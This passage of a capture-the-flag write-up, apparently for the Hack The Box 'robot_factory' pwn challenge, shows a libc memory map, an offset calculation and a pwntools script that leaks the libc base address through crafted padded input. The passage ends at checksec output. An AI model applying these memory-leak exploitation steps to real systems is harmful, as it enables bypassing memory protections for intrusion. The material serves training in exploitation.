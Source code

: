 ```x86asm
0x7f8f4f83c000     0x7f8f4f886000    0x4a000   0x19d000 /root/htb_pwn_robot_factory/libc.so.6
0x7f8f4f886000     0x7f8f4f887000     0x1000   0x1e7000 /root/htb_pwn_robot_factory/libc.so.6
0x7f8f4f887000     0x7f8f4f88a000     0x3000   0x1e7000 /root/htb_pwn_robot_factory/libc.so.6
0x7f8f4f88a000     0x7f8f4f88d000     0x3000   0x1ea000 /root/htb_pwn_robot_factory/libc.so.6
[...]
```

Our libc is mapped between `0x00007f8f4f69f000` and `0x00007f8f4f88d000`. The first address to be in this range on our stack is `0x00007f8f4f73900b` (at the stack address `0x7f8f4e671e28`, 104 bytes after the address of our strings concatenation). Let's calulate the offset to the base_address :

```python
$ ./python -q
>>> hex(0x00007f8f4f73900b - 0x00007f8f4f69f000)
'0x9a00b'
```

We now know how to leak the libc's base address ! Let's start a script:

```py
from pwn import *

elf = ELF('./robot_factory')
libc = ELF('./libc.so.6')

# context.log_level = "DEBUG"

# r = remote('167.172.49.117', 30563)
r = elf.process()

############################ LIBC LEAK ############################
r.sendlineafter(b' (n/s) > ', b's')
r.sendlineafter(b' (a/s/m) > ', b'a')

# Sending 104 bytes to leak the libc
r.sendlineafter(b'1: ', b'A' * 96)
r.sendlineafter(b'2: ', b'B' * 8)

leak = r.recvuntil(b'\n\0', drop=True).split(b' ')[-1]
leak = leak.replace(b'A', b'').replace(b'B', b'')
log.success(f"leak : {leak}")

libc_base = leak.ljust(8, b'\x00')
libc_base = u64(libc_base) - 0x9a00b
log.success(f'glibc base address : {hex(libc_base)}')

r.close()
```
The execution gives us this result:

 ```bash
$ python3 solve.py
[*] '/root/htb_pwn_robot_factory/robot_factory'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/root/htb_pwn_robot_factory/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/root/htb_pwn_robot_factory/robot_factory': pid 3789
 ```